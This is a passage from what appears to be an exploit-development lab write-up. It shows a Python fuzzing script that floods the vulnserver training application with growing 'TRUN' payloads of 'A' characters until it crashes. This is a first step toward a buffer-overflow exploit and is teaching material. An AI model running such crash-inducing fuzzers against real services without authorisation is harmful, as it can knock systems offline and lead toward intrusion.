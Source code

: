 # Fuzzing
We fuzz the vulnserver by sending a large number of the letter ‘A’ in incremental order. After some time, we find in Immunity Debugger that the application has crashed.
```python
#!/bin/python

import sys
import socket
from time import sleep

buffer = 'A'*100
while True:
        try:
                 s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
                 s.connect(('192.168.40.135',9999))
                 
                 s.send(('TRUN / .:/' + buffer))
                 s.close()
                 sleep(1)
                 buffer = buffer + 'A'*100
        except:
                 print "Fuzzing crashed at %s bytes" % str(len(buffer))
                 sys.exit()
```
<img alt="" class="bg hc hd c" width="1000" height="600" loading="lazy" role="presentation" src="https://i.ibb.co/HqWLCm8/2Fuzzing.png">

